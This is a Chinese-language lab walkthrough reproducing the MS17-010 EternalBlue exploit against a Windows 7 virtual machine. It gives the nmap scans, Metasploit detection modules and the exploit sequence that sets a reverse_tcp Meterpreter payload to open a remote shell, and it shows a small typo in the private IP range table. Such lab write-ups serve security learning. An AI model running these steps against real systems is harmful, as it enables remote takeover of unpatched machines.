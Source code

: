 ```yaml
---
title: "Ms17 010（永恒之蓝）漏洞复现"
date: 2024-06-30T00:55:27+08:00
tags: []
---
```


## 一、前言

### 1. 漏洞描述

Eternalblue通过TCP端口445和139来利用SMBv1和NBT中的远程代码执行漏洞，恶意代码会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

### 2. 漏洞影响

目前已知受影响的 Windows 版本包括但不限于：Windows NT，Windows 2000、Windows XP、Windows 2003、Windows Vista、Windows 7、Windows 8，Windows 2008、Windows 2008 R2、Windows Server 2012 SP0。

## 二、复现环境

* 虚拟环境搭建：`VMware Workstation 17 pro`
* 网络模式：`NAT`
* 攻击机：`kali Linux WSL`
* 攻击机IP：`192.168.97.173`
* 攻击工具：`nmap`   `metasploit(MSF)`
* 靶机：`cn_windows_7_ultimate_with_sp1_x64_dvd_u_677408`（**前提win7关闭防火墙**）
* 靶机IP：`192.168.97.128`

## 三、启动 MSF

1. 安装MSF
    ```bash
    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \chmod 755 msfinstall && \./msfinstall
    ```

2. 进入框架
    ```bash
    msfconsole
    ```

3. 初始化
    ```bash
    init
    ```

## 四、寻找主机

### 1. ipconfig
使用`ipconfig`分别查看win7和kali中的ip地址

### 2. nmap
```bash
nmap -T5 -sP 192.168.97.0/24
```

* **​`-T5`​**：使用速度模板**​`T5`​**，表示激进的扫描速度。
* **​`-sP`​**：执行 Ping 连接扫描。
* **​`192.168.97.0/24`​**：扫描指定的 IP 地址范围。

| **IP地址** | 私有ip范围 | 子网掩码 | CIDR |
|------------|------------|-----------|------|
| A类地址 | 10.0.0.0～10.255.255.255 | 255.0.0.0 | 10.0.0.0/8 |
| B类地址 | 172.16.0.0～173.31.255.255 | 255.255.0.0 | 172.16.0.0/16 |
| C类地址 | 192.168.0.0～192.168.255.255 | 255.255.255.0 | 192.168.0.0/24 |

## 五、端口扫描

### 1. nmap
```bash
nmap -T5 -sT 192.168.97.128
```

* **​`-T5`​**：使用速度模板**​`T5`​**，表示激进的扫描速度。
* **​`-sT`​**：执行 TCP 连接扫描。
* **​`192.168.97.128`​**：扫描指定的 IP

### 2. MSF 端口扫描

1. 使用模块
    ```bash
    use auxiliary/scanner/portscan/tcp
    ```

2. 设置扫描ip
    ```bash
    set rhosts 192.168.97.128
    ```

3. 运行
    ```bash
    run
    ```

## 六、查找永恒之蓝漏洞

微软 永恒之蓝 编号`ms17-010`

```bash
search ms17_010 
```

1. `exploit/windows/smb/ms17_010_eternalblue`
    * 这个模块利用了MS17-010漏洞，通过EternalBlue攻击载荷，远程执行代码。
    * EternalBlue利用Windows的Server Message Block（SMB）协议中的漏洞，允许攻击者在目标机器上执行任意代码。
    * 攻击成功后，通常会在目标机器上生成一个Meterpreter会话，从而允许进一步的渗透测试操作。

2. `exploit/windows/smb/ms17_010_psexec`
    * 这个模块结合MS17-010漏洞和Psexec技术，通过SMB协议在目标系统上执行命令。
    * 利用MS17-010漏洞进行初始攻击，然后使用Psexec进行进一步的远程命令执行。
    * 适用于在利用MS17-010漏洞后希望使用Psexec执行进一步的命令和控制操作时。

3. `auxiliary/admin/smb/ms17_010_command`
    * 这个辅助模块用于通过MS17-010漏洞在目标系统上执行指定的命令。
    * 不会生成一个持久的会话，而是直接执行特定的命令并返回结果。
    * 适用于希望通过MS17-010漏洞在目标系统上执行单个命令的场景。

4. `auxiliary/scanner/smb/smb_ms17_010`
    * 这个辅助模块用于扫描目标系统是否存在MS17-010漏洞。
    * 不会进行实际的漏洞利用或攻击，而是仅检测目标系统是否易受MS17-010漏洞的影响。

## 七、漏洞检测

### 1. 使用探测模块

1. 使用`Auxiliary`辅助探测模块
    ```bash
    use auxiliary/scanner/smb/smb_ms17_010
    ```
   或
    ```bash
    use 24
    ```

2. 查看需要配置的参数
    ```bash
    show options
    ```

3. 设置目标主机地址
    ```bash
    set rhosts 192.168.97.128
    ```

4. 运行
    ```bash
    run
    ```

### 2. nmap
```bash
nmap --script smb-vuln-ms17-010 192.168.97.128
```

## 八、漏洞攻击

1. 加载 ms17-010 攻击模块
    ```bash
    use exploit/windows/smb/ms17_010_eternalblue
    ```

2. 设置目标主机地址
    ```bash
    set rhosts 192.168.97.128
    ```

3. 设置连接方式为反向连接
    ```bash
    set payload windows/x64/meterpreter/reverse_tcp
    ```

4. 运行
    ```bash
    run
    ```

## 九、Meterpreter命令用法

[命令列表和详细说明...]